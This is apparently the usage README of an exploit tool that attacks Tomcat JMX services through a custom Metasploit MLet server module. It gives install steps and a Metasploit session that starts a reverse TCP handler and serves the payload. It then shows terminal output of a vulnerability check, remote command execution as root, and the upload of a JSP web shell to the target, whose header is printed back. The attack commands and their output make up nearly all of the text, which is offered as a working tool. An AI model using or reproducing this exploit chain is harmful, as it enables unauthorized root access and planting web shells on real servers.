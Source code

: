 ### INSTALL   
- Copy the "metasploit" folder to "data/java/"  
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"  
  
### START MLET SERVER  
  
msf > use exploit/multi/misc/java_mlet_server   
msf exploit(multi/misc/java_mlet_server) > set SRVHOST 192.168.153.144  
SRVHOST => 192.168.153.144  
msf exploit(multi/misc/java_mlet_server) > set URIPATH /pwn/  
URIPATH => /pwn/  
msf exploit(multi/misc/java_mlet_server) > run  
WARNING: Local file /usr/share/metasploit-framework/data/java is being used  
WARNING: Local files may be incompatible with the Metasploit Framework  
[*] Exploit running as background job 0.  
  
[*] Started reverse TCP handler on 192.168.153.144:4444   
[*] Using URL: http://192.168.153.144:8080/pwn/  
[*] Server started.  
msf exploit(multi/misc/java_mlet_server) >   
  
  
### USAGE  
  
D:\>java -jar TomcatJMX.jar  
  
Usage:  java -jar jmx_echo.jar <url> <ip:port> check  
        java -jar jmx_echo.jar <url> <ip:port> run <cmd>  
        java -jar jmx_echo.jar <url> <ip:port> upload <local_file> <remote_file>  
  
  
D:\>java -jar TomcatJMX.jar http://192.168.153.144:8080/pwn/ 192.168.153.100:9999 check  
###VULNERABLE###  
  
D:\>java -jar TomcatJMX.jar http://192.168.153.144:8080/pwn/ 192.168.153.100:9999 run id  
uid=0(root) gid=0(root) groups=0(root)  
  
  
D:\>java -jar TomcatJMX.jar http://192.168.153.144:8080/pwn/ 192.168.153.100:9999 upload d:/func.jsp /tmp/xxx.jsp  
BINGO  
  
D:\>java -jar TomcatJMX.jar http://192.168.153.144:8080/pwn/ 192.168.153.100:9999 run "head -10 /tmp/xxx.jsp"  
<%@page import="java.security.MessageDigest,  
                java.util.*,  
                java.net.*,  
                java.text.*,  
                java.util.zip.*,  
                java.io.*"  
%>  
<%!  
  private static final boolean NATIVE_COMMANDS = true;  
        private static final boolean READ_ONLY = false;  
  
  
D:\>  
  
  
